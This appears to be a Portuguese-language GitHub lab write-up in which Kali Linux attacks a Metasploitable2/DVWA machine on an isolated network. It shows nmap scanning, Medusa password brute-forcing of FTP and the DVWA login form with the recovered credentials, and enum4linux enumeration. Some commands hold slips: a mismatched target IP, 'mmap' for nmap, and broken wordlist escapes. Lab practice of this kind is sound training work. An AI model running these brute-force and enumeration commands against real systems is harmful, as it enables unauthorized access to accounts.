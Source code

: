 # project-bruteforce
Lab - Medusa em Kali + Metasploitable

2 VMs no VirtualBox: Kali Linux (atacante) e Metasploitable2/DVWA (alvo)

Rede: Host-only / internal (isolada)
I
P do alvo usado: 192.168.56.101

1#

ping  -c 3 192.168.56.101
<img width="848" height="259" alt="image" src="https://github.com/user-attachments/assets/f388b4cb-1afd-4f6c-b4fe-b3ae2dcb1e40" />

mmap -sV -p 21,22,80,445,139 192.168.56.101
<img width="886" height="311" alt="image" src="https://github.com/user-attachments/assets/a50ec576-1a00-4ea7-9c3c-3869b95adaa0" />

echo -e ‘user\nmsfadmin\nadmin\root’ > users.txt

echo -e ‘123456\npassword\nqwerty\nmsfadmin’ > pass.txt

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
<img width="886" height="258" alt="image" src="https://github.com/user-attachments/assets/36c266d6-0d23-4d74-bf00-64273869af3d" />
<img width="520" height="306" alt="image" src="https://github.com/user-attachments/assets/488dc721-da3f-4925-a59b-cdb499485c96" />

2#

http://192.168.56.101/dvwa/login.php
<img width="886" height="489" alt="image" src="https://github.com/user-attachments/assets/e2ba728b-2f44-4795-826a-b6f2e8ac8926" />
<img width="886" height="287" alt="image" src="https://github.com/user-attachments/assets/2b6ecc0c-3da6-4480-9d12-583c678cb0aa" />

echo -e ‘123456\password\nqwerty\nmsfadmin’ > pass.txt

echo -e ‘user\npassword\nqwerty\nmsfadmin/admin’ > users.txt

medusa -h 192.168.56.102 -U users.txt -P pass.txt -M http \
-m PAGE: ’/dvwa/login.php’ \
-m FORM: ’username=^USER^&password=^PASS^&Login=Login’ \
-m ‘FAIL=Login failed’ -t 6

2025-10-26 13:41::02 ACCOUNT FOUND [http] Host: 192.168.56.101 User: admin Password: password [SUCESS]
<img width="816" height="555" alt="image" src="https://github.com/user-attachments/assets/e7b2d565-3bc1-4acc-a26e-e40ce7bc59d8" />
<img width="886" height="509" alt="image" src="https://github.com/user-attachments/assets/eaa0cec5-0b4a-45c9-92d8-1d73633c62e4" />

3#

enum4linux -a 192.168.56.101 | tee enum4_output.txt

less enum4_output.txt 

<img width="522" height="723" alt="image" src="https://github.com/user-attachments/assets/16a88aac-67dc-42e0-a815-3ad178e3fb20" />
